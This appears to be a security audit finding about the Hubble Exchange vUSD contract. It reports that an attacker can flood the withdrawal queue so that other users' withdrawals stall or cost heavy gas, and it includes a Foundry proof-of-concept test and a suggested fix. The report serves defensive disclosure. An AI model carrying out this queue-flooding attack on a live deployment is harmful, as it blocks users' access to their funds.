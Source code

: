 0xbepresent

medium

# Malicious actor can flood the `vUSD` withdrawals causing a single user to spend a lot of gas when processing their withdrawal via `MarginAccountHelper.withdrawFromInsuranceFund()` or `MarginAccountHelper.removeMarginInUSD()`

## Summary

Malicious actor can flood the `vUSD` withdrawals list causing the users to spend a lot of gas when processing their withdrawals via [MarginAccountHelper.withdrawFromInsuranceFund()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L71) or [MarginAccountHelper.removeMarginInUSD()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L53) functions. 


## Vulnerability Detail

The [MarginAccountHelper.withdrawFromInsuranceFund()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L71) function helps to withdraw the `vUSD` from insurance fund and get gas token (usdc). The function execute the next calls:
1. It gets the `vUSD` from the insurance contract
2. It burns the `vUSD` tokens in order to get gas token.
3. It calls [vusd.processWithdrawals()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L75C9-L75C35) in order to execute all the queued withdrawals.

The problem is the [vusd.processWithdrawals()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L75C9-L75C35) function proccess all the withdrawals from other users which can be expensive and even his whitdrawal may not been proccessed. Same behaivour is in the [removeMarginInUSD()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L57) funciton.

I created a test where a Malicious actor can flood the withdrawals list with `5e6` amount of each one, causing that the `vusd.processWithdrawals()` to be very expensive to proccess and the withdrawals from alice and bob are not proccessed. Test steps:

1. Attacker mints 500e6 vUSD.
2. Alice and bob mint 5e6 vUSD each one.
3. Attacker floods the withdrawals with 5e6 each one.
4. Alice and bob withdraw at the end.
5. The `processWithdrawals()` is executed but it only executes the attacker withdrawals.

```solidity
// test/foundry/VUSDWithReceive.t.sol
// $ forge test --match-test "testFloodWithdrawals" -vvv
//
    function testFloodWithdrawals() public {
        // A single user might spent a lot of gas in order to withdraw his tokens.
        // An attacker can flood the withdrawals with malicious withdrawals of 5e6 each one.
        // 1. Attacker mints 500e6 vUSD.
        // 2. Alice and bob mint 5e6 vUSD each one.
        // 3. Attacker floods the withdrawals with 5e6 each one.
        // 4. Alice and bob withdraw at the end.
        // 5. The processWithdrawals() is executed but it only executes the attacker withdrawals.
        //
        uint256 amount = 5e6;
        address attacker = address(1337);
        //
        // 1. Attacker mints 500e6 vUSD.
        //
        mintVusd(attacker, 500e6);
        //
        // 2. Alice and bob mint 5e6 vUSD each one.
        //
        mintVusd(alice, amount);
        mintVusd(bob, amount);
        //
        // 3. Attacker floods the withdrawals with 5e6 each one.
        //
        for (int i; i < 100; i++){
            vm.prank(attacker);
            husd.withdraw(5e6);
        }
        //
        // 4. Alice and bob withdraw at the end.
        //
        vm.prank(alice);
        husd.withdraw(amount);
        vm.prank(bob);
        husd.withdraw(amount);
        // assert the withdrawals length and start number.
        assertEq(husd.maxWithdrawalProcesses(), 100);
        assertEq(husd.withdrawalQLength(), 102);
        assertEq(husd.start(), 0);
        //
        // 5. The processWithdrawals() is executed but it only executes the attacker withdrawals.
        //
        husd.processWithdrawals();
        assertEq(husd.start(), 100);
        assertEq(attacker.balance, uint(500e6) * 1e12);
        assertEq(alice.balance, 0);
        assertEq(bob.balance, 0);
    }
```

## Impact

The `withdrawals` list can be flooded by a malicious actor causing the [processWithdrawals()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/VUSD.sol#L65C14-L65C32) function to take a lot of work/gas to process. Additionally the withdrawal for a single user can be queued via [withdrawFromInsuranceFund()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L71) or [removeMarginInUSD()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L53) but his withdrawal may not be proccessed becuase the user may be proccessing the [first 100 withdrawals](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/VUSD.sol#L35) and his withdrawal may be still queued.

Additionally the attack could be cheap since the protocol is deployed on a Avalanche fork.

## Code Snippet

The [withdrawFromInsuranceFund()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/MarginAccountHelper.sol#L71) function:

```solidity
File: MarginAccountHelper.sol
53:     function removeMarginInUSD(uint256 amount) external {
54:         address trader = msg.sender;
55:         marginAccount.removeMarginFor(VUSD_IDX, amount, trader);
56:         vusd.withdrawTo(trader, amount);
57:         vusd.processWithdrawals();
58:     }
...
...
71:     function withdrawFromInsuranceFund(uint256 shares) external {
72:         address user = msg.sender;
73:         uint amount = insuranceFund.withdrawFor(user, shares);
74:         vusd.withdrawTo(user, amount);
75:         vusd.processWithdrawals();
76:     }

```

The [VUSD.processWithdrawals()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/VUSD.sol#L65C14-L65C32) and [VUSD._withdrawTo()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/VUSD.sol#L109) functions:

```solidity
File: VUSD.sol
065:     function processWithdrawals() external override whenNotPaused nonReentrant {
066:         uint reserve = address(this).balance;
067:         require(reserve >= withdrawals[start].amount, 'Cannot process withdrawals at this time: Not enough balance');
068:         uint i = start;
069:         while (i < withdrawals.length && (i - start) < maxWithdrawalProcesses) {
070:             Withdrawal memory withdrawal = withdrawals[i];
071:             if (reserve < withdrawal.amount) {
072:                 break;
073:             }
074: 
075:             (bool success, bytes memory data) = withdrawal.usr.call{value: withdrawal.amount}("");
076:             if (success) {
077:                 reserve -= withdrawal.amount;
078:             } else {
079:                 emit WithdrawalFailed(withdrawal.usr, withdrawal.amount, data);
080:             }
081:             i += 1;
082:         }
083:         // re-entracy not possible, hence can update `start` at the end
084:         start = i;
085:     }
...
...
109:     function _withdrawTo(address to, uint amount) internal {
110:         require(amount >= 5 * (10 ** PRECISION), "min withdraw is 5 vusd");
111:         burn(amount); // burn vusd from msg.sender
112:         withdrawals.push(Withdrawal(to, amount * SCALING_FACTOR));
113:     }
```

## Tool used

Manual review

## Recommendation

The `vUSD` burn and `usdc` withdrawal could be in the same [VUSD._withdrawTo()](https://github.com/sherlock-audit/2023-04-hubble-exchange/blob/main/hubble-protocol/contracts/VUSD.sol#L109) transaction:

```diff
    function _withdrawTo(address to, uint amount) internal {
        require(amount >= 5 * (10 ** PRECISION), "min withdraw is 5 vusd");
        burn(amount); // burn vusd from msg.sender
--      withdrawals.push(Withdrawal(to, amount * SCALING_FACTOR));
++      (bool success, bytes memory data) = to.call{value: amount * SCALING_FACTOR}("");
    }
```